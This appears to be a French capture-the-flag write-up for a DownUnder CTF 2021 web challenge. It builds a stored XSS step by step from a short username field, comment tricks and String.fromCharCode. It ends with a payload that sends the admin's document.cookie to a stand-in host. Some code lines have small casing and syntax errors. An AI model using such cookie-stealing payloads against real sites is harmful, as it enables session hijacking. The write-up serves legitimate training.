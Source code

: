 # Writeup for the challenge **_`x1337 Sk1d R3p0rt3r`_** from DownUnder CTF 2021
----

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`x1337 Sk1d R3p0rt3r`** |
| Category: | **`Web`** |
| Points: | **`232pts`**|
| Author: | **`Xesh`**|

## Description:
 Pesky sk1dz everywhere, they are being taken offline left right and centre! It looks like th3 sk1dz have been reporting eachother on this site, something something cyber justice?

---

- ## Solution

Pour ce challenge, on se retrouve tout d'abord sur une page d'accueil
 Après s'être inscrit et connecté on arrive sur le endpoint `/dashboard`
 ![Capture 1](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web1.png)

Plusieurs  possibilités s'offrent à nous:
###### **1.**  Créer un report
###### **2.** Changer son nom d'utilisateur

#
#
#
#### Analyse du report
On tente d'abord de créer un report avec un texte aléatoire.
On se retrouve alors sur la page détaillant ce dernier.

 ![Capture 2](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web2.png)


Intéréssant, on peut voir un boutton `Send Report to Admin`, ce genre de feature est généralement présente lorsqu'il est question d'exploiter une faille **XSS**.

Avec cette info en tête essayons une injection classique dans le champs report.

```html
<script> alert('test') </script>
```

Rien de spécial le champs ne semble pas vulnérable au injection XSS.
 ![Capture 3](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web3.png)

#
#
#### Analyse du nom d'utilisateur
Essayons maintenant d'insérer le payload dans le nom d'utilisateur.
 ![Capture 4](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web4.png)

Très bien, alors tentons un simple tag ```<script>```
 ![Capture 5](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web5.png)
 
Pas de soucis cette fois, vérifions donc une potentielle vulnérabilité XSS dans le report via le nom d'utilisateur.
 ![Capture 6](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web6.png)
 
Haha, il semble que cette fois notre injection ai marché, regardons le code source:

 ![Capture 7](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web7.png)

Plusieurs choses sont à noter:

- Notre balise `<script>` a bien été injecter dans le code **HTML**
- On retrouve nos anciens reports dans cette balise
- On peut voir que les charactère **`<`**, **`>`** et **`"`** sont échappés quand ils ont été inséré dans le report

Il semblerait que nous sommes face à une **XSS DOM-Based**, ce type de XSS consiste à exploiter une partie de code HTML pour pouvoir réussir à executer un payload

Jusqu'ici nous savons qu'il est seulement possible d'injecter des balises dans notre nom d'utilisateur mais que nous sommes limités à 10 caractères

Pour le code javascript, il est probablement possible d'utiliser le contenu du report à condition de réussir à enlever le code HTML présent et de ne pas utiliser de string

Commencons par le code HTML problématique

Il se situe à deux endroit: entre la balise `<script>` et le payload ainsi qu'entre le le payload et la balise `</script>`

Heureusement que le javascript permet d'ajouter des commentaires multilignes grâce à `/*` et `*/`

Placons alors ces commentaires aux endroit adequats, pour cela, nous allons devoir changer plusieurs fois de nom d'utilisateur
1. On change le nom d'utilisateur par `*/</script` (le dernier `>` est ajouté automatiquement gràce au code HTML du site) et on envoie le report avec une valeur quelqueconque
2. On change le nom d'utilisateur pour le remettre comme avant et on insère la deuxième partie du payload dans le report
Pour cette partie il est necessaire de trouver comment récupérer une string sans passer les guillements, par chance le javascript dispose de la fonction `String.fromCharCode()`" qui prend une ou plusieurs valeurs décimales et renvoie une string basée sur les codes ascii correspondant, dans notre exemple `'test' = String.fromCharCode(116, 101, 115, 116)`
Notre payload sera donc `*/alert(String.FromCharCode(116, 101, 115, 116)/*`
3. Pour finir on change une dernière fois notre nom d'utilisateur par `<script>/*` et on envoie un report


C'est y est, on a bien notre pop-up, le DOM est bien exploité et ressemble à cela

```html
<script>/*garbage html*/ alert(String.FromCharCode(116, 101, 115, 116) /*garbage html*/</script>
```

On passe maintenant à la vraie exploitation avec un payload visant les cookie:
```html
<script> window.location = 'https://my-server.com/?cookie=' + document.cookie </script>
```

Qui se transforme en
```html
<script> window.location = String.FromCharcode(104, 116, 116, 112, 115, 58, 47, 47, 109, 121, 45, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 47, 63, 99, 111, 111, 107, 105, 101, 61) + document.cookie </script>
```

On à plus qu'à récupérer le cookie de l'admin et retourner sur le dashboard

Et bim, dans la note de l'admin se trouve le flag : **`DUCTF{DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}}`**